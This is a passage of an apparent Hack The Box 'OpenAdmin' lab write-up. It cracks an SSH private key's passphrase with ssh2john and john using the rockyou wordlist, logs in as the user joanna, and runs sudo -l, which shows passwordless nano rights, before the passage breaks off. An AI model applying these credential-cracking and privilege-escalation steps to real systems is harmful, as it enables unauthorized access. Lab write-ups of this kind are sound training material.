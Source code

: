 ## **<span style='color:#ff5555'>Crack the private-key</span>**
***

First we have to make a crackable with john by using `ssh2john.py`
```
root@corshine:~# python2 /usr/share/john/ssh2john.py joanna_rsa >> hash-id_rsa
```
Now we can crack it with `john`
```
root@corshine:~# john hash-id_rsa -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (joanna-id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:07 DONE (2020-05-03 20:14) 0.1194g/s 1967Kp/s 1267Kc/s 1267KC/sa6_123..*7¡Vamos!
Session completed
```
We have `bloodninjas` as the cracked **passphrase**

Now it is time to login using the key of `joanna`
```
root@corshine:~# chmod 600 joanna_rsa
root@corshine:~# ssh -i joanna-id_rsa joanna@openadmin.htb
Enter passphrase for key 'joanna-id_rsa': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

Last login: Fri May  1 11:31:30 2020 from 10.10.16.81
joanna@openadmin:~$ 
```

And we are in as `joanna`

![]({{ "/images/htb/openadmin/usertxt.png" | relative_url }})


## **<span style='color:#ff5555'>Escalating to root</span>**
***

By checking simple command `sudo -l` to check if I can run any command as **root**.
```
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```
